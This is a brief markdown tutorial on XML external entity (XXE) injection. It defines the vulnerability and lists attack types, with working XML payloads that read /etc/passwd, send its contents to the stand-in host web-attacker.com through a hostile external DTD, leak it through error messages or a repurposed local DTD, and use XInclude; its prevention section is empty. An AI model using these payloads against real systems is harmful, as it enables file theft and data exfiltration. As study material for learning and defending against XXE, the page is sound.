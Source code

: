 # XML external entity (XXE) injection

## What is XML external entity injection?

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

## What are the types of XXE attacks?

- Exploiting XXE to retrieve files
- Exploiting XXE to perform SSRF attacks
- Exploiting blind XXE 

    -- blind XXE to exfiltrate data out-of-band
    ```xml
    // dtd file
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
    %eval;
    %exfiltrate;

    // xxe inject
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM
    "http://web-attacker.com/malicious.dtd"> %xxe;]>
    ```
    -- blind XXE to retrieve data via error messages

    ```xml
    // dtd file
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;

    // xxe inject
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM
    "http://web-attacker.com/malicious.dtd"> %xxe;]>
    ```

    -- blind XXE by repurposing a local DTD

    ```xml
    <!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %local_dtd;
    ]>
    ```
- XInclude attacks
    ```xml
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/></foo>
    ```

## Some examples about XML external entity injection at above :+1:

![](https://i.imgur.com/R6kk8uc.png)

## Prevent XML external entity injection

